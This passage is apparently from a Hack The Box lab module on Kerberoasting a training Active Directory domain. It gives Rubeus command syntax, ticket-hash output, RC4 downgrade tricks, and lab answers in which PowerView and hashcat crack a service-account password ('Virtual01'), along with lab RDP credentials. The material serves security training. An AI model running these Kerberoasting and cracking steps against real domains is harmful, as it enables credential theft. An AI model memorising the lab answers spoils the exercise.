        Rubeus.exe kerberoast /simple [[/spn:"blah/blah"] | [/spns:C:\temp\spns.txt]] [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ou:"OU=,..."] [/ldaps] [/nowrap]

    Perform Kerberoasting with alternate credentials:
        Rubeus.exe kerberoast /creduser:DOMAIN.FQDN\USER /credpassword:PASSWORD [/spn:"blah/blah"] [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ou:"OU=,..."] [/ldaps] [/nowrap]

    Perform Kerberoasting with an existing TGT:
        Rubeus.exe kerberoast </spn:"blah/blah" | /spns:C:\temp\spns.txt> </ticket:BASE64 | /ticket:FILE.KIRBI> [/nowrap]

    Perform Kerberoasting with an existing TGT using an enterprise principal:
        Rubeus.exe kerberoast </spn:user@domain.com | /spns:user1@domain.com,user2@domain.com> /enterprise </ticket:BASE64 | /ticket:FILE.KIRBI> [/nowrap]

    Perform Kerberoasting with an existing TGT and automatically retry with the enterprise principal if any fail:
        Rubeus.exe kerberoast </ticket:BASE64 | /ticket:FILE.KIRBI> /autoenterprise [/ldaps] [/nowrap]

    Perform Kerberoasting using the tgtdeleg ticket to request service tickets - requests RC4 for AES accounts:
        Rubeus.exe kerberoast /usetgtdeleg [/ldaps] [/nowrap]

    Perform "opsec" Kerberoasting, using tgtdeleg, and filtering out AES-enabled accounts:
        Rubeus.exe kerberoast /rc4opsec [/ldaps] [/nowrap]

    List statistics about found Kerberoastable accounts without actually sending ticket requests:
        Rubeus.exe kerberoast /stats [/ldaps] [/nowrap]

    Perform Kerberoasting, requesting tickets only for accounts with an admin count of 1 (custom LDAP filter):
        Rubeus.exe kerberoast /ldapfilter:'admincount=1' [/ldaps] [/nowrap]

    Perform Kerberoasting, requesting tickets only for accounts whose password was last set between 01-31-2005 and 03-29-2010, returning up to 5 service tickets:
        Rubeus.exe kerberoast /pwdsetafter:01-31-2005 /pwdsetbefore:03-29-2010 /resultlimit:5 [/ldaps] [/nowrap]

    Perform Kerberoasting, with a delay of 5000 milliseconds and a jitter of 30%:
        Rubeus.exe kerberoast /delay:5000 /jitter:30 [/ldaps] [/nowrap]

    Perform AES Kerberoasting:
        Rubeus.exe kerberoast /aes [/ldaps] [/nowrap]
```

Some options include:

- Performing Kerberoasting and outputting hashes to a file
- Using alternate credentials
- Performing Kerberoasting combined with a pass-the-ticket attack
- Performing "opsec" Kerberoasting to filter out AES-enabled accounts
- Requesting tickets for accounts passwords set between a specific date range
- Placing a limit on the number of tickets requested
- Performing AES Kerberoasting

### Using the /stats Flag

```pwsh
PS C:\htb> .\Rubeus.exe kerberoast /stats

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.2


[*] Action: Kerberoasting

[*] Listing statistics about target users, no ticket requests being performed.
[*] Target Domain          : INLANEFREIGHT.LOCAL
[*] Searching path 'LDAP://ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL' for '(&(samAccountType=805306368)(servicePrincipalName=*)(!samAccountName=krbtgt)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))'

[*] Total kerberoastable users : 9


 ------------------------------------------------------------
 | Supported Encryption Type                        | Count |
 ------------------------------------------------------------
 | RC4_HMAC_DEFAULT                                 | 7     |
 | AES128_CTS_HMAC_SHA1_96, AES256_CTS_HMAC_SHA1_96 | 2     |
 ------------------------------------------------------------

 ----------------------------------
 | Password Last Set Year | Count |
 ----------------------------------
 | 2022                   | 9     |
 ----------------------------------
```

### Using the /nowrap Flag
Let's use Rubeus to request tickets for accounts with the admincount attribute set to 1. These would likely be high-value targets and worth our initial focus for offline cracking efforts with Hashcat. Be sure to specify the /nowrap flag so that the hash can be more easily copied down for offline cracking using Hashcat.

```pwsh
PS C:\htb> .\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.2


[*] Action: Kerberoasting

[*] NOTICE: AES hashes will be returned for AES-enabled accounts.
[*]         Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts.

[*] Target Domain          : INLANEFREIGHT.LOCAL
[*] Searching path 'LDAP://ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL' for '(&(&(samAccountType=805306368)(servicePrincipalName=*)(!samAccountName=krbtgt)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))(admincount=1))'

[*] Total kerberoastable users : 3


[*] SamAccountName         : backupagent
[*] DistinguishedName      : CN=BACKUPAGENT,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
[*] ServicePrincipalName   : backupjob/veam001.inlanefreight.local
[*] PwdLastSet             : 2/15/2022 2:15:40 PM
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash                   : $krb5tgs$23$*backupagent$INLANEFREIGHT.LOCAL$backupjob/veam001.inlanefreight.local@INLANEFREIGHT.LOCAL*$750F377DEFA85A67EA0FE51B0B28F83D$049EE7BF77ABC968169E1DD9E31B8249F509080C1AE6C8575B7E5A71995F345CB583FECC68050445FDBB9BAAA83AC7D553EECC57286F1B1E86CD16CB3266827E2BE2A151EC5845DCC59DA1A39C1BA3784BA8502A4340A90AB1F8D4869318FB0B2BEC2C8B6C688BD78BBF6D58B1E0A0B980826842165B0D88EAB7009353ACC9AD4FE32811101020456356360408BAD166B86DBE6AEB3909DEAE597F8C41A9E4148BD80CFF65A4C04666A977720B954610952AC19EDF32D73B760315FA64ED301947142438B8BCD4D457976987C3809C3320725A708D83151BA0BFF651DFD7168001F0B095B953CBC5FC3563656DF68B61199D04E8DC5AB34249F4583C25AC48FF182AB97D0BF1DE0ED02C286B42C8DF29DA23995DEF13398ACBE821221E8B914F66399CB8A525078110B38D9CC466EE9C7F52B1E54E1E23B48875E4E4F1D35AEA9FBB1ABF1CF1998304A8D90909173C25AE4C466C43886A650A460CE58205FE3572C2BF3C8E39E965D6FD98BF1B8B5D09339CBD49211375AE612978325C7A793EC8ECE71AA34FFEE9BF9BBB2B432ACBDA6777279C3B93D22E83C7D7DCA6ABB46E8CDE1B8E12FE8DECCD48EC5AEA0219DE26C222C808D5ACD2B6BAA35CBFFCD260AE05EFD347EC48213F7BC7BA567FD229A121C4309941AE5A04A183FA1B0914ED532E24344B1F4435EA46C3C72C68274944C4C6D4411E184DF3FE25D49FB5B85F5653AD00D46E291325C5835003C79656B2D85D092DFD83EED3ABA15CE3FD3B0FB2CF7F7DFF265C66004B634B3C5ABFB55421F563FFFC1ADA35DD3CB22063C9DDC163FD101BA03350F3110DD5CAFD6038585B45AC1D482559C7A9E3E690F23DDE5C343C3217707E4E184886D59C677252C04AB3A3FB0D3DD3C3767BE3AE9038D1C48773F986BFEBFA8F38D97B2950F915F536E16E65E2BF67AF6F4402A4A862ED09630A8B9BA4F5B2ACCE568514FDDF90E155E07A5813948ED00676817FC9971759A30654460C5DF4605EE5A92D9DDD3769F83D766898AC5FC7885B6685F36D3E2C07C6B9B2414C11900FAA3344E4F7F7CA4BF7C76A34F01E508BC2C1E6FF0D63AACD869BFAB712E1E654C4823445C6BA447463D48C573F50C542701C68D7DBEEE60C1CFD437EE87CE86149CDC44872589E45B7F9EB68D8E02070E06D8CB8270699D9F6EEDDF45F522E9DBED6D459915420BBCF4EA15FE81EEC162311DB8F581C3C2005600A3C0BC3E16A5BEF00EEA13B97DF8CFD7DF57E43B019AF341E54159123FCEDA80774D9C091F22F95310EA60165C805FED3601B33DA2AFC048DEF4CCCD234CFD418437601FA5049F669FEFD07087606BAE01D88137C994E228796A55675520AB252E900C4269B0CCA3ACE8790407980723D8570F244FE01885B471BF5AC3E3626A357D9FF252FF2635567B49E838D34E0169BDD4D3565534197C40072074ACA51DB81B71E31192DB29A710412B859FA55C0F41928529F27A6E67E19BE8A6864F4BC456D3856327A269EF0D1E9B79457E63D0CCFB5862B23037C74B021A0CDCA80B43024A4C89C8B1C622A626DE5FB1F99C9B41749DDAA0B6DF9917E8F7ABDA731044CF0E989A4A062319784D11E2B43554E329887BF7B3AD1F3A10158659BF48F9D364D55F2C8B19408C54737AB1A6DFE92C2BAEA9E
```

## A Note on Encryption Type
Kerberoasting tools typically request `RC4 encryption` when performing the attack and initiating TGS-REQ requests. This is because RC4 is weaker and easier to crack offline using tools such as Hashcat than other encryption algorithms such as AES-128 and AES-256. When performing Kerberoasting in most environments, we will retrieve hashes that begin with `$krb5tgs$23$*`, an RC4 (type 23) encrypted ticket. Sometimes we will receive an AES-256 (type 18) encrypted hash or hash that begins with `$krb5tgs$18$*`. While it is possible to crack AES-128 (type 17) and AES-256 (type 18) TGS tickets using Hashcat, it will typically be significantly more time consuming than cracking an RC4 (type 23) encrypted ticket, but still possible especially if a weak password is chosen.

Let's start by creating an SPN account named `testspn` and using Rubeus to Kerberoast this specific user to test this out. As we can see, we received the TGS ticket RC4 (type 23) encrypted.

```pwsh
PS C:\htb> .\Rubeus.exe kerberoast /user:testspn /nowrap

[*] Action: Kerberoasting

[*] NOTICE: AES hashes will be returned for AES-enabled accounts.
[*]         Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts.

[*] Target User            : testspn
[*] Target Domain          : INLANEFREIGHT.LOCAL
[*] Searching path 'LDAP://ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL' for '(&(samAccountType=805306368)(servicePrincipalName=*)(samAccountName=testspn)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))'

[*] Total kerberoastable users : 1


[*] SamAccountName         : testspn
[*] DistinguishedName      : CN=testspn,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
[*] ServicePrincipalName   : testspn/kerberoast.inlanefreight.local
[*] PwdLastSet             : 2/27/2022 12:15:43 PM
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash                   : $krb5tgs$23$*testspn$INLANEFREIGHT.LOCAL$testspn/kerberoast.inlanefreight.local@INLANEFREIGHT.LOCAL*$CEA71B221FC2C00F8886261660536CC1$4A8E252D305475EB9410FF3E1E99517F90E27FB588173ACE3651DEACCDEC62165DE6EA1E6337F3640632FA42419A535B501ED1D4D1A0B704AA2C56880D74C2940170DC0747CE4D05B420D76BF298226AADB53F2AA048BE813B5F0CA7A85A9BB8C7F70F16F746807D3B84AA8FE91B8C38AF75FB9DA49ED133168760D004781963DB257C2339FD82B95C5E1F8F8C4BD03A9FA12E87E278915A8362DA835B9A746082368A155EBB5EFB141DC58F2E46B7545F82278AF4214E1979B35971795A3C4653764F08C1E2A4A1EDA04B1526079E6423C34F88BDF6FA2477D28C71C5A55FA7E1EA86D93565508081E1946D796C0B3E6666259FEB53804B8716D6D076656BA9D392CB747AD3FB572D7CE130940C7A6415ADDB510E2726B3ACFA485DF5B7CE6769EEEF08FE7290539830F6DA25C359894E85A1BCFB7E0B03852C7578CB52E753A23BE59AB9D1626091376BA474E4BAFAF6EBDD852B1854FF46AA6CD1F7F044A90C9497BB60951C4E82033406ACC9B4BED7A1C1AFEF41316A58487AFEA4D5C07940C87367A39E66415D9A54B1A88DADE1D4A0D13ED9E474BDA5A865200E8F111996B846E4E64F38482CEE8BE4FC2DC1952BFFBD221D7284EFF27327C0764DF4CF68065385D31866DA1BB1A189E9F82C46316095129F06B3679EE1754E9FD599EB9FE96C10315F6C45300ECCBEB6DC83A92F6C08937A244C458DB69B80CE85F0101177E6AC049C9F11701E928685F41E850CA62F047B175ADCA78DCA2171429028CD1B4FFABE2949133A32FB6A6DC9E0477D5D994F3B3E7251FA8F3DA34C58FAAE20FC6BF94CC9C10327984475D7EABE9242D3F66F81CFA90286B2BA261EBF703ADFDF7079B340D9F3B9B17173EBA3624D9B458A5BD1CB7AF06749FF3DB312BCE9D93CD9F34F3FE913400655B4B6F7E7539399A2AFA45BD60427EA7958AB6128788A8C0588023DDD9CAA4D35459E9DEE986FD178EB14C2B8300C80931624044C3666669A68A665A72A1E3ABC73E7CB40F6F46245B206777EE1EF43B3625C9F33E45807360998B7694DC2C70ED47B45172FA3160FFABAA317A203660F26C2835510787FD591E2C1E8D0B0E775FC54E44A5C8E5FD1123FBEDB463DAFDFE6A2632773C3A1652970B491EC7744757872C1DDC22BAA7B4723FEC91C154B0B4262637518D264ADB691B7479C556F1D10CAF53CB7C5606797F0E00B759FCA56797AAA6D259A47FCCAA632238A4553DC847E0A707216F0AE9FF5E2B4692951DA4442DF86CD7B10A65B786FE3BFC658CC82B47D9C256592942343D05A6F06D250265E6CB917544F7C87645FEEFA54545FEC478ADA01B8E7FB6480DE7178016C9DC8B7E1CE08D8FA7178D33E137A8C076D097C1C29250673D28CA7063C68D592C30DCEB94B1D93CD9F18A2544FFCC07470F822E783E5916EAF251DFA9726AAB0ABAC6B1EB2C3BF6DBE4C4F3DE484A9B0E06FF641B829B651DD2AB6F6CA145399120E1464BEA80DC3608B6C8C14F244CBAA083443EB59D9EF3599FCA72C6997C824B87CF7F7EF6621B3EAA5AA0119177FC480A20B82203081609E42748920274FEBB94C3826D57C78AD93F04400DC9626CF978225C51A889224E3ED9E3BFDF6A4D6998C16D414947F9E157CB1594B268BE470D6FB489C2C6C56D2AD564959C5
```

Checking with PowerView, we can see that the `msDS-SupportedEncryptionTypes` attribute is set to `0` (0 means that a specific encryption type is not defined and set to the default of RC4_HMAC_MD5).

```pwsh
PS C:\htb> Get-DomainUser testspn -Properties samaccountname,serviceprincipalname,msds-supportedencryptiontypes

serviceprincipalname                   msds-supportedencryptiontypes samaccountname
--------------------                   ----------------------------- --------------
testspn/kerberoast.inlanefreight.local                            0 testspn
```

We can use Rubeus with the `/tgtdeleg` flag to specify that we want only RC4 encryption when requesting a new service ticket. This makes it significantly faster for us to crack the RC4 encrypted ticket.



> Note: This does not work against a Windows Server 2019 Domain Controller, regardless of the domain functional level. It will always return a service ticket encrypted with the highest level of encryption supported by the target account. 

It is possible to edit the encryption types used by Kerberos. This can be done by opening Group Policy, editing the Default Domain Policy, and choosing: `Computer Configuration > Policies > Windows Settings > Security Settings > Local Policies > Security Options`, then double-clicking on `Network security: Configure encryption types allowed for Kerberos` and selecting the desired encryption type allowed for Kerberos. Removing all other encryption types except for RC4_HMAC_MD5 would allow for the above downgrade example to occur in 2019.

## Questions
RDP to **10.129.43.134** (ACADEMY-EA-MS01), with user `htb-student` and password `Academy_student_AD!`
1. What is the name of the service account with the SPN 'vmware/inlanefreight.local'? **Answer: svc_vmwaresso**
   - Using Powerview to enumerate SPN accounts:
        ```pwsh
        PS C:\Tools> Import-Module .\PowerView.ps1
        PS C:\Tools> Get-DomainUser * -spn | select samaccountname, serviceprincipalname

        samaccountname    serviceprincipalname
        --------------    --------------------
        adfs              adfsconnect/azure01.inlanefreight.local
        backupagent       backupjob/veam001.inlanefreight.local
        certsvc           http://ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL
        krbtgt            kadmin/changepw
        damundsen         {MSSQLSvc/ACADEMY-EA-DB01.INLANEFREIGHT.LOCAL:1433, MSSQL/ACADEMY-EA-FILE}
        sqldev            MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433
        sqlprod           MSSQLSvc/SPSJDB.inlanefreight.local:1433
        sqlqa             MSSQLSvc/SQL-CL01-01inlanefreight.local:49351
        SAPService        SAPService/srv01.inlanefreight.local
        solarwindsmonitor sts/inlanefreight.local
        testspn           testspn/kerberoast.inlanefreight.local
        testspn2          testspn2/kerberoast.inlanefreight.local
        svc_vmwaresso     vmware/inlanefreight.local
        ```
2. Crack the password for this account and submit it as your answer. **Answer: Virtual01**
   - Get the Domain SPN Ticket:
        ```pwsh
        PS C:\Tools> Get-DomainUser -Identity svc_vmwaresso | Get-DomainSPNTicket -Format Hashcat


        SamAccountName       : svc_vmwaresso
        DistinguishedName    : CN=svc_vmwaresso,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
        ServicePrincipalName : vmware/inlanefreight.local
        TicketByteHexStream  :
        Hash                 : $krb5tgs$23$*svc_vmwaresso$INLANEFREIGHT.LOCAL$vmware/inlanefreight.local*$4F027C45791622DEF8E3A
                        98B86F2BE3F$7E1F530CC147CA9B5B84AAE4BA641699EB87CE4A7B875C391A0AFDE0093023F58A9CFBE217DC5B9B3935
                        F3E3C0F627A3289690F696982B15641EA128E4252126A2A7FED7C94319D45A3A341C8C39B4D15B4F5A3F65B34B2F8A8D
                        A40D384C8053B1678B1D663A3CC091E01682F0A5D4AF74712738D1B07177FA261DE74BBC4850CD7C24C7E33FB6AF2949
                        5A6FBB324814D1F0A6269603DA50F755A55B70CB209DCA5092998A9C7B099C0BEF22231ED18871097900371B660F5AF9
                        A9FFCEC2F14697D545BDE7E4B81CB07129F7E65B0156773E7DDFB5C212E804F76A9A0A247DB93D609EEE721E4BBC8A4A
                        3626208421AE319B23BE6C1FE667CC4651FC577AAA606923F50A880AC7E47B9C6D85D777598F00B542822B8D56412432
                        72C6652872ABA8765F7F7C1927411B3ADCD9E4E7E420F1BF2A6928AC6CB1D9A49D051B2134677FACA43273072C9ADA6B
                        3FA8878018E331D370AFA5B52FC8C554A6D364DDF2E34AC75FA625CBD64F30979F70697E88B423E4046E344C4E61100C
                        12D0088DDAB6B9080E9FF1B8A009BACB32C5FB8056FF7E240123CB6DDD76CC1E8B06950AE921831B17F3B53C780B52CB
                        A255662F0C1CF3BD6291A0501CB42250D2147AF8BDCF5ABAD9A39B983CB63EDCF977339F4AF215E2A5BE7683D01A975F
                        9B0D340057ECAC1F45C29E47DD6BBDE81E7ABC042785BB692D9F871868BC444E30329337F6873C2B24308D244175FB89
                        F5A9478349E5B9EFB5FAB17BA7F3F6EDF2AF64E39A6C457C238B6485FF8B76FEF4CA0188FDD129AC71C1EB6C97602E3C
                        1720FE802E0BF62CBDADE5D1173C5D50CDE228AAACEC591B0B553D59CF1BC5987DCF3D7CF70A19A84BC5C432462269DA
                        918EDDC94DBB25F39FAE60F04450B5A75EF28862D929FC743C3E15BDCA3F9F31F92BE933F6D3B3E375C4DD056C1EDE2B
                        1ED3110F6AF344A6DF0303F3D4E393A7886B32D5308043B34895A4A3FCCBC0617B1118870FFA2CA2E842FBF7915DE273
                        5E1C0466BF59E08F9010363429232FA5D2BAE70171B30A9375910362A75D66228FE23AA3CC319031A8C6270BAFDE5048
                        1D1A9D96D6E98877B363A0E2D0E0CAE378D8CA8B9E9FC67D55BA84B3E2FF46CBAD548BE619C75DC7C0B44CD05E9E9123
                        DDD687BAAD38AD14B37BC727BA41E74C8D3A80792CB81CD26FABD665FDBD51856C8F71C8598B22DC0EAAF8C6E80AD153
                        E4B3CD4A9B2E5597F136329ABE6C68CBEBCBFBF93334C0D22564FF1D9AB73FF684C890D5E974CB5B51FFCB399F138FB4
                        CD115FF23184C0E8183D34404E60924BC3A0BE417015AF7625E0537AD09C52732A913A28891A7D98D6A6CEA92B195E8B
                        0252E99E0B9C9B35FDC535376C9778E34491ED18ADD787AC08282842A9A642ED2566D2FEB268AAA276FF13F477D0E51C
                        7C3D3469BDD3E3AC2FED12DC584C85F557EB101D346A3E0FF47E8FC94E4C934E54E0E5D175ACEE84BB2920098EA005A3
                        6B1C7D7B65DB7B82C6DD68BBD5AFCBFEFA643AC9757B67143510114881EE3E0EF9CBD745F683652D8862A551B867B39C
                        59AE414C6FDBA452A16E292880F8090E9C76266F3BD9EB75E9B7761CAC72539F8B0258579C5EF98E7DF217388EAB7CBA
                        15F9A273204511F39E4F770D113BC9ED1609D4AAF13B1567FF7CC0BA490F27
        ```
   - Copy the hash to attack host and crack it offline using hashcat:
        ```sh
        $ hashcat -m 13100 hash /usr/share/wordlists/rockyou.txt
        <SNIP>
        $krb5tgs$23$*svc_vmwaresso$INLANEFREIGHT.LOCAL$vmware/inlanefreight.local*$4f027c45791622def8e3a98b86f2be3f$7e1f530cc147ca9b5b84aae4ba641699eb87ce4a7b875c391a0afde0093023f58a9cfbe217dc5b9b3935f3e3c0f627a3289690f696982b15641ea128e4252126a2a7fed7c94319d45a3a341c8c39b4d15b4f5a3f65b34b2f8a8da40d384c8053b1678b1d663a3cc091e01682f0a5d4af74712738d1b07177fa261de74bbc4850cd7c24c7e33fb6af29495a6fbb324814d1f0a6269603da50f755a55b70cb209dca5092998a9c7b099c0bef22231ed18871097900371b660f5af9a9ffcec2f14697d545bde7e4b81cb07129f7e65b0156773e7ddfb5c212e804f76a9a0a247db93d609eee721e4bbc8a4a3626208421ae319b23be6c1fe667cc4651fc577aaa606923f50a880ac7e47b9c6d85d777598f00b542822b8d5641243272c6652872aba8765f7f7c1927411b3adcd9e4e7e420f1bf2a6928ac6cb1d9a49d051b2134677faca43273072c9ada6b3fa8878018e331d370afa5b52fc8c554a6d364ddf2e34ac75fa625cbd64f30979f70697e88b423e4046e344c4e61100c12d0088ddab6b9080e9ff1b8a009bacb32c5fb8056ff7e240123cb6ddd76cc1e8b06950ae921831b17f3b53c780b52cba255662f0c1cf3bd6291a0501cb42250d2147af8bdcf5abad9a39b983cb63edcf977339f4af215e2a5be7683d01a975f9b0d340057ecac1f45c29e47dd6bbde81e7abc042785bb692d9f871868bc444e30329337f6873c2b24308d244175fb89f5a9478349e5b9efb5fab17ba7f3f6edf2af64e39a6c457c238b6485ff8b76fef4ca0188fdd129ac71c1eb6c97602e3c1720fe802e0bf62cbdade5d1173c5d50cde228aaacec591b0b553d59cf1bc5987dcf3d7cf70a19a84bc5c432462269da918eddc94dbb25f39fae60f04450b5a75ef28862d929fc743c3e15bdca3f9f31f92be933f6d3b3e375c4dd056c1ede2b1ed3110f6af344a6df0303f3d4e393a7886b32d5308043b34895a4a3fccbc0617b1118870ffa2ca2e842fbf7915de2735e1c0466bf59e08f9010363429232fa5d2bae70171b30a9375910362a75d66228fe23aa3cc319031a8c6270bafde50481d1a9d96d6e98877b363a0e2d0e0cae378d8ca8b9e9fc67d55ba84b3e2ff46cbad548be619c75dc7c0b44cd05e9e9123ddd687baad38ad14b37bc727ba41e74c8d3a80792cb81cd26fabd665fdbd51856c8f71c8598b22dc0eaaf8c6e80ad153e4b3cd4a9b2e5597f136329abe6c68cbebcbfbf93334c0d22564ff1d9ab73ff684c890d5e974cb5b51ffcb399f138fb4cd115ff23184c0e8183d34404e60924bc3a0be417015af7625e0537ad09c52732a913a28891a7d98d6a6cea92b195e8b0252e99e0b9c9b35fdc535376c9778e34491ed18add787ac08282842a9a642ed2566d2feb268aaa276ff13f477d0e51c7c3d3469bdd3e3ac2fed12dc584c85f557eb101d346a3e0ff47e8fc94e4c934e54e0e5d175acee84bb2920098ea005a36b1c7d7b65db7b82c6dd68bbd5afcbfefa643ac9757b67143510114881ee3e0ef9cbd745f683652d8862a551b867b39c59ae414c6fdba452a16e292880f8090e9c76266f3bd9eb75e9b7761cac72539f8b0258579c5ef98e7df217388eab7cba15f9a273204511f39e4f770d113bc9ed1609d4aaf13b1567ff7cc0ba490f27:Virtual01
        <SNIP>
        ```